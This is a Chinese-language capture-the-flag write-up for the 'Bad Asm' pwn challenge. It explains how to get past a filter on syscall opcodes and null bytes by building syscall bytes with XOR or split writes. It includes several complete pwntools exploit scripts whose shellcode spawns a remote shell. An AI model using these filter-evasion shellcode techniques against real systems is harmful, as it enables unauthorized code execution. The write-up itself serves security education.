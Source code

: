 # Bad Asm

程序过滤syscall / sysenter / int 0x80的汇编指令的机器码。

strcpy限制了shellcode的机器码中不能出现0x00。

开启的可执行的段具有写的权限，用异或搓出来syscall的机器码之后用mov写入到shellcode后面，中间用nop连接一下就行了。

由于程序清空了rsp rbp寄存器，我们需要恢复一下rsp的值，任意一个可读写的段即可，否则push操作会寄掉。

可以用异或先把syscall的机器码插入到当前shellcode的后面来执行read的syscall，利用read在旧的shellcode后面插入execve("/bin/sh",0,0)的shellcode，第二次输入的payload中0x42个a的作用是覆盖掉老的shellcode，毕竟执行过了也没用了。

恢复rsp的作用是为了能够正常执行push/pop指令，这里push/pop指令位于shellcraft.sh()生成的shellcode中。否则其生成的shellcode无法正常执行。

```Python
# sudo sysctl -w kernel.randomize_va_space=0
from pwn import*
from Crypto.Util.number import long_to_bytes,bytes_to_long

context.log_level='debug'
context(arch='amd64',os='linux')
context.terminal=['tmux','splitw','-h']

ELFpath = './pwn'
p=remote('???.???.???.???',?????)

# p=process(ELFpath)
# gdb.attach(p)

shellcode='''
;// 目标 : 使用syscall执行read(0,code,0x3fff)
mov rsp, rdi
mov rax,rdi
add sp, 0x0848  ;//从开头到这里的作用是给rsp一个合法值，使push/pop指令能够正常执行。同时设置rax的值方便后面往当前shellcode末尾拼接上syscall指令的机器码。

mov rsi,rdi
mov dx,0x3fff ;//这两行作用是设置rsi、rdx寄存器

mov cx,0x454f
xor cx,0x4040 ;//这两行作用是用异或搓出来 0f 05 (syscall的机器码)
add al,0x40
mov [rax],cx  ;//rax原本指向的是当前段的开始位置，加上一个偏移，在之后指向的地方写入0f 05，即syscall，相当于拼接到当前shellcode后面。

xor rdi,rdi
xor rax,rax   ;//设置read的系统调用号0，设置rdi寄存器
'''
p.sendafter("Input your Code :",asm(shellcode).ljust(0x40,b'\x90')) # \x90是nop指令的机器码，用于连接上面的shellcode和写入的syscall，使程序能正常执行。

pause()
p.send(b'a'*0x42+asm(shellcraft.sh())) # 0x42个a正好覆盖了syscall，之后拼接新的shellcode会继续执行本次写入的新的shellcode
p.interactive()
```

除了异或的方法，我们可以用另一种方法布置syscall的机器码。

题目检查syscall的时候采用的方法是检测相邻两个字节，所以我们可以将两个字节分别用一个汇编指令写入到内存中，比如用mov，这样我们就可以将其机器码：0xf 0x5拆开，而不是连续的字节，这样也可以通过检查。

```Python
mov byte ptr [r8 + 0x17], 0xf
mov byte ptr [r8 + 0x18], 0x5
```

最后保证控制执行流执行到写入的0f05那里就行了。

下面的exp中直接异或搓了一个execve("/bin/sh",0,0)，这样也是可以的。

```Python
# sudo sysctl -w kernel.randomize_va_space=0
from pwn import*
from Crypto.Util.number import long_to_bytes,bytes_to_long

context.log_level='debug'
context(arch='amd64',os='linux')
context.terminal=['tmux','splitw','-h']

ELFpath = './pwn'
p=remote('???.???.???.???',?????)

# p=process(ELFpath)
# gdb.attach(p)

shellcode='''
;// 目标：执行execve("/bin/sh",0,0)的syscall
mov rsp, rdi
add sp, 0x0848 ;//给rsp一个合法值，使程序能正常执行push/pop，任意一个可读写段即可，我们这里刚好有rdi中存储的shellcode的段的起始位置，正好这个段有读写权限，就直接拿来在0x848偏移的位置当作栈顶了（加偏移是为了防止某些操作破坏写入的shellcode）
mov rsi,0x4028636f2e49226f
mov rdx,0x4040104040204040 
xor rsi,rdx 
push rsi ;//异或搓出来'/bin/sh\x00'(正好8字节，一个寄存器能存下)并push到栈上面。此时rsp指向的即此字符串的开始位置

mov ax,0x454f
xor ax,0x4040
mov rsi,rdi
add sil,0x40
mov [rsi],ax ;//搓出来syscall的机器码0f 05并且拼接到当前shellcode后面。

mov rdi,rsp  ;//设置rdi，指向之前push到栈上面的'/bin/sh\x00‘
xor rsi,rsi  
xor rdx,rdx  ;//设置rsi，rdx
xor rax,rax
mov al,59    ;//设置execve的系统调用号
'''    
p.sendafter("Input your Code :",asm(shellcode).ljust(0x40,b'\x90'))
p.interactive()
```

除此之外，由于我们把栈放在可执行段上面了，我们可以直接异或整出来syscall的机器码然后push到栈上面，最后jmp rsp即可。由于这种方法我们并不依赖nop指令进行连接，在送payload的时候可以去掉ljust了

```Python
# sudo sysctl -w kernel.randomize_va_space=0
from pwn import*
from Crypto.Util.number import long_to_bytes,bytes_to_long

context.log_level='debug'
context(arch='amd64',os='linux')
context.terminal=['tmux','splitw','-h']

ELFpath = './pwn'
p=remote('???.???.???.???',?????)

# p=process(ELFpath)
# gdb.attach(p)

shellcode='''
;// 目标：执行execve("/bin/sh",0,0)的syscall
mov rsp, rdi
add sp, 0x0848 ;//给rsp一个合法值，使程序能正常执行push/pop
mov rsi,0x4028636f2e49226f
mov rdx,0x4040104040204040 
xor rsi,rdx 
push rsi ;//异或搓出来'/bin/sh\x00'并push到栈上面。此时rsp指向的即此字符串的开始位置

mov rdi,rsp  ;//设置rdi，指向之前push到栈上面的'/bin/sh\x00‘
xor rsi,rsi  
xor rdx,rdx  ;// 设置rsi，rdx
xor rax,rax
mov al,59    ;//设置execve的系统调用号

mov cx,0xf5ff
xor cx,0xf0f0 ;//异或拿到syscall的机器码
push rcx      ;//push到栈顶，rsp此时指向的是syscall指令
jmp rsp
'''

p.sendafter("Input your Code :",asm(shellcode))

p.interactive()
```

在把'/bin/sh\x00'push到栈上面的时候我们为了清除最后的0x00，采用了异或的方法。除了这种方法外我们可以调整一下这个字符串，比如我们可以改为使用'/bin///sh'，shellcraft.sh()生成的shellcode采用的就是这种方法。

按照这种方法更改的shellcode，也是可以拿到shell的

```Python
shellcode='''
;// 目标：执行execve("/bin///sh",0,0)的syscall
mov rsp, rdi
add sp, 0x0848 ;//给rsp一个合法值，使程序能正常执行push/pop

push 0x68
mov rax, 0x732f2f2f6e69622f
push rax ;//将'/bin///sh'push到栈上面，最后一个字符h是第6行push的，高位默认填充为0，此时就不用异或了

mov rdi,rsp  ;//设置rdi，指向之前push到栈上面的'/bin/sh\x00‘
xor rsi,rsi  
xor rdx,rdx  ;// 设置rsi，rdx
xor rax,rax
mov al,59    ;//设置execve的系统调用号

mov cx,0xf5ff
xor cx,0xf0f0 ;//异或拿到syscall的机器码
push rcx      ;//push到栈顶，rsp此时指向的是syscall指令
jmp rsp
'''
```